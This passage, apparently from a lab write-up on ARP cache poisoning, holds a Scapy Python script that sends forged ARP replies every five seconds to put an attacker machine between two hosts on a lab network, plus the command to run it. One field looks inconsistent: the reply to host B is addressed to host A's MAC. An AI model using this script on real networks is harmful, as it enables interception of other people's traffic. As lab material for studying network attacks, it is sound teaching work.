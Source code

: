 ```python
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

while True:
    # Poisoning A's mac
    # Sending ARP reply from M->A
    ethA = Ether(src=M_mac, dst=A_mac)
    arpA = ARP(hwsrc=M_mac, psrc=B_ip,
               hwdst=A_mac, pdst=A_ip)
    arpA.op = 2

    # Poisoning B's arp
    # Sending reply from M->B
    ethB = Ether(src=M_mac, dst=B_mac)
    arpB = ARP(hwsrc=M_mac, psrc=A_ip,
               hwdst=A_mac, pdst=B_ip)
    arpB.op = 2

    pkt1 = ethA/arpA
    pkt1.show()
    sendp(pkt1, count=1)
    pkt2 = ethB/arpB
    pkt2.show()
    sendp(pkt2, count=1)
    time.sleep(5)
```

运行脚本，让其每隔五秒进行一次arp欺骗

```bash
python3 t22pro.py
```

![image-20220505211422784](ARPCachePoisoning/image-20220505211422784.png)

